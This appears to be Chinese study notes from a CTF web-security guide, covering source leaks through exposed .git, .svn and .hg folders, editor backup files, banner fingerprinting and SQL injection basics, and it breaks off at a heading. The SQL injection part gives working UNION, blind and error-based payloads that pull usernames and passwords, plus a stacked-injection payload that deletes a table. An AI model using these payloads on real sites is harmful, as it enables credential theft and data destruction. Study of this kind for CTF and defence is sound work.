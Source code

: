 # 第1章 Web入门
## 1.1 举足轻重的信息收集
### 1.1.1 敏感目录泄露
#### 1.git泄露
##### （1）常规git泄露  
使用https://github.com/denny0223/scrabble工具获取源代码  
##### （2）git回滚  
使用git reset，或者git log -stat查看每个commmit修改了哪些文件再用git diff HEAD commit-id查看当前版本和想查看的commit之间的变化  
##### （3）git分支  
手工进行文件提取  
##### （4）git泄露的其他利用
如.git/config文件夹中可能包含access_token信息，从而可以访问这个用户的其他仓库
#### 2.SVN泄露
推荐工具：https://github.com/kost/dvcs-ripper和Seay-svn（Windows下的源代码备份漏洞利用工具）
#### 3.HG泄露
推荐工具：https://github.com/kost/dvcs-ripper
#### 4.总结经验
字典非常重要，此外还可在某些工具的基础上二次开发，推荐工具：https://github.com/maurosoria/dirsearch 。对于重定向类型的问题，如果访问.git返回403，则试着访问.git/config，如果有文件返回则说明存在git泄露，反之一般不存在。SVN泄露一般在entries中爬取源代码，如果entries为空则注意wc.db文件是否存在，然后通过其中的checksum在pristine文件夹中获取源代码
### 1.1.2 敏感备份文件
#### 1.gedit备份文件
在Linux中用gedit编辑器保存后会生成后缀为“～”的文件，其文件内容就是刚编辑的内容
#### 2.vim备份文件
用vim编辑文件意外退出后时，会在当前目录生成备份文件，格式为：“.文件名.swp”。恢复SWP备份文件的办法是现在当前目录创建一个同名文件，再使用“vim -r flag”命令，即可得到意外退出时编辑的内容
#### 3.常规文件
robots.txt:记录一些目录和CMS版本信息
readme.md:记录CMS版本信息，甚至Github地址
www.zip/rar/tar.gz:往往是网站的源码备份
/index.php~或/index.php.bak:网站备份文件
#### 4.总结经验
可编写实时监控脚本监控SWP等备份文件。vim第一次意外退出生成*.swp，第二次为*.swo，第三次为*.swn，等等，此外还有*.un.文件名.swp类型的备份文件。在实际环境中，网站的备份可能是网站域名的压缩包
### 1.1.3 Banner识别
#### 1.自行搜集指纹库
Github上或其他扫描器搜集CMS指纹库
#### 2.使用已有工具
利用Wappalyzer工具
#### 3.总结经验
可试着随意输入一些URL，通过404页面和302跳转页面发现信息
### 1.1.4 题目经验总结
1.针对Windows服务器，大概率是寻找CMS在其上的漏洞   
2.在不知道密码和无法重置的情况下，通过CMS网站本身的特性，结合目录遍历来实现最后的RCE
## 1.2 CTF中的SQL注入
### 1.2.1 SQL注入基础
#### 1.2.1.1 数字型注入和UNION注入
?id=-1 union select 1,group_concat(table_name) from information.schema.tables where table_schema=database()  
?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='xxx'
#### 1.2.1.2 字符型注入和布尔盲注
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),1,1))='a'%23
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),2,1))='d'%23
#### 1.2.1.3 报错注入
updatexml在执行时第二个参数应该为合法XPATH路径，否则会在引发报错的同时将传入的参数输出：  
?id=1' or updatexml(1,concat(0x7e,(select pwd from wp_user)),1)%23  
当目标开启多语句执行的时候，可以采用多语句执行的方式修改数据库的任意结构和数据，称作堆叠注入：  
?id=1%27;delete%20%20from%20wp_files;%23
### 1.2.2 注入点
